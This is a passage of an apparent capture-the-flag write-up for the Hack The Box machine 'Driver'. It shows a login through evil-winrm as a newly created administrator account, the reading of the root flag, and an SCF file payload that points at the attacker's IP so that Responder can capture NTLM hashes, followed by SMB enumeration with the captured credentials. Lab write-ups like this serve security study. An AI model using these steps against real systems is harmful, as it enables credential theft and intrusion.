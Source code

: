 ```

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```

We can then use evil-winrm to connect to the newly-created adm1n user.

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.106 -u adm1n -p 'P@ssw0rd'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\adm1n\Documents> whoami
driver\adm1n
*Evil-WinRM* PS C:\Users\adm1n\Documents>
```
### Obtaining root flag
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<Redacted root flag>
```

## Post-Exploitation
### SCF File upload
Using the payload that we have specified in the exploit file will cause the server to try to contact our local machine where we have Responder listening to capture the password hash that is being used.

```
[Shell]
Command=2
IconFile=\\10.10.16.6\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

However, saving this as an SCF file alone will only cause the file to be executed when the user browse the file. Adding a ```@``` at the start of the filename will cause the file to be saved to the top of the share drive

### SMB Authentication
Using the credentials that we have captured using responder, we can enumerate the smb shares using smbmap. However, we realize that we can only read IPC$ share but not the rest of the shares.
